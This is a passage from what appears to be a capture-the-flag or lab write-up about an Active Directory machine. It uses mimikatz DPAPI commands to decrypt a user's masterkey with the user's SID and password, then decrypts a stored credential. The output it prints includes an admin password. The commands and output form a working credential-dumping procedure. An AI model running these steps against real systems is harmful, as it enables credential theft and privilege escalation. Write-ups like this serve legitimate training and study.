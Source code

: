 MasterKey: 556a2412-1275-4ccf-b721-e6a0b4f90407
...
</code></pre>

Get `encrypted masterkey`

{% code overflow="wrap" %}
```powershell
dir C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\

556a2412-1275-4ccf-b721-e6a0b4f90407
```
{% endcode %}

Extract masterkey using steph.cooper's `SID` and `password`.

{% code title="mimikatz.exe dpapi::masterkey" overflow="wrap" %}
```powershell
.\mimikatz.exe 'dpapi::masterkey /in:"C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407" /sid:S-1-5-21-1487982659-1829050783-2281216199-1107 /password:ChefSteph2025!  /protected' exit
```
{% endcode %}

```
...
[masterkey] with password: ChefSteph2025! (protected user)
  key : d9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84
  sha1: 3c3cf2061dd9d45000e9e6b49e37c7016e98e701
```



**Extract credentials** from protected file using decrypted masterkey.

{% code overflow="wrap" %}
```powershell
.\mimikatz.exe 'dpapi::cred /in:"C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9" /masterkey:d9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84' exit
```
{% endcode %}

```
  UserName       : steph.cooper_adm
  CredentialBlob : FivethChipOnItsWay2025!
  Attributes     : 0

```

{% embed url="https://www.thehacker.recipes/ad/movement/credentials/dumping/dpapi-protected-secrets" %}

We can view in the BloodHound that the user is inside the `Administrators` group.
